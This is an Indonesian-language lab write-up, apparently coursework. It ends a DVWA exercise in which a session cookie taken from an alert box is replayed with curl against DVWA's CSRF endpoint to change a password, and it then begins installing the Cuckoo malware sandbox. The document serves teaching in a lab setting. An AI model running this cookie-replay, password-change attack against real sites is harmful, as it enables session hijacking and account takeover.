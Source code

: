 3. AKan muncul alert box, kopi isi dari aler box tersebut. ISinya akan terlihat seperti di bawah ini :
```
security=low; PHPSESSID=3juclcme0enmmhns9t36mi4ij0
```

4. Buka terminal, ketikkan perintah berikut secara berurutan :
```
curl --cookie "security=low; PHPSESSID=3juclcme0enmmhns9t36mi4ij0" --location "http://10.0.1.100/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#" | grep "Password Changed" | tee curl.txt
```
Ket = isi cookie dan location diisi sesuai dengan langkah 1 dan 3

![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/32.PNG)

5. Coba login ke DVWA dengan password yang dirubah. Jika berhasil, sukses


# CUCKOO
## Instalasi
Panduan:
```
Buku Cuckoo Malware Analysis
Video Youtube: Automated Malware Analysis with Cuckoo
```
### Pendahuluan
Pada instalasi Cuckoo ini kami menggunakan dua OS, satu sebagai Host dan satu sebagai Guest. Kami menggunakan Ubuntu versi 16.04 LTS 64bit sebagai Host dan Windows XP SP3 32bit sebagai Guest. Berikut merukapan langkah instalasi kedua OS dan Cuckoo:
1. Instalasi OS Ubuntu di virtualbox seperti tugas 1 dan 2. Kemudian jalankan Linux seperti biasa

2. Aktifkan Shared Files pada Machine > Settings, pilih Shared Folder dan klik tambah shared folder baru. Kemudian akan muncul dialog box, masukkan folder yang akan di share pada folder path, kemudian centang ketiga option(folder merupakan folder utama windows, disini contoh menggunakan Windows 8.1)

3. Install Guest Addition CD Image pada Ubuntu, kemudian restart ubuntu setelah selesai

4. Masukkan perintah berikut untuk menambahkan user agar mendapatkan permission untuk melihat isi folder
```
sudo adduser (nama user) vboxsf
```
Restart Ubuntu.

5. Step 2-4 merupakan step optional, berguna jika user telah terlanjur mendownload file iso Windows XP pada OS utama. Step 2-4 akan digunakan pada Host dan Guest OS untuk sharing file.

6. Install Virtualbox pada Ubuntu dengan perintah
```
sudo apt-get update
sudo apt-get install virtualbox
```
### Instalasi Program Tambahan
Install aplikasi-aplikasi yang akan dibutuhkan Cuckoo nantinya. Berikut tata cara penginstalan aplikasi yang dibutuhkan oleh Cuckoo:
1. Install Python dengan perintah:
```
sudo apt-get install python
```
2. Install SqlAchemy sebagai toolkit database untuk python dengan perintah:
```
sudo apt-get install python-sqlalchemy
```
